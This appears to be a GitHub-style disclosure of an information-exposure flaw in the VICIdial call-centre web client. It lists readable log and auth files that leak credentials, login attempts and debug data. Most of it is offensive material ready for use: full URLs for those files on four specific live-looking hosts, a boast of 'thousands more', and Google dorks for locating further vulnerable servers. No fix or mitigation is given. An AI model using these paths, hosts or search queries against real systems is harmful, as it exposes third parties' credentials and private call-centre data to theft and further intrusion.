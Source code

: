 # VICIdial - CVE
## Info/Impact
VICIdial's Web Client contains many sensitive files that can be access from the client side. These files contain mysqli logs, auth logs, debug information, successful and unsuccessful login attempts with their corresponding IP's, User-Agents, credentials and much more. This information can be leveraged by an attacker to gain further access to VICIdial systems.

## PoC (Proof of Concept)

Potential Sensative files/endpoints:

/vicidial/project_auth_entries.txt

/vicidial/agent_reports/AGENT_DAY_<YEAR>-<MONTH>-<DAY>.TXT

/vicidial/agent_reports/

/vicidial/closer_SQL_updates.txt

/agc/vicidial_mysqli_errors.txt

/agc/vicidial_debug.txt

/agc/vicidial_auth_entries.txt

## Example URL's:

http://172.104.24.101/vicidial/project_auth_entries.txt

http://172.104.24.101/vicidial/agent_reports/

http://172.104.24.101/agc/vicidial_mysqli_errors.txt

http://172.104.24.101/agc/vicidial_debug.txt

http://172.104.24.101/agc/vicidial_auth_entries.txt


------------------------------------------------------


http://35.156.102.118/vicidial/project_auth_entries.txt

http://35.156.102.118/vicidial/agent_reports/

http://35.156.102.118/vicidial/closer_SQL_updates.txt

http://35.156.102.118/agc/vicidial_mysqli_errors.txt

http://35.156.102.118/agc/vicidial_debug.txt

http://35.156.102.118/agc/vicidial_auth_entries.txt


------------------------------------------------------


https://callsrevenue.com/vicidial/project_auth_entries.txt

https://callsrevenue.com/agc/vicidial_mysqli_errors.txt

https://callsrevenue.com/agc/vicidial_debug.txt

https://callsrevenue.com/agc/vicidial_auth_entries.txt


------------------------------------------------------


http://69.60.110.115/vicidial/agent_reports/

http://69.60.110.115/vicidial/closer_SQL_updates.txt

http://69.60.110.115/agc/vicidial_mysqli_errors.txt

http://69.60.110.115/agc/vicidial_debug.txt

+ Thousands More! :)

## Google Dorks to help find more!

"Agent web client:  Phone Login"

"Index of /vicidial"

inurl:/vicidial/welcome.php

intitle:Agent Timeclock


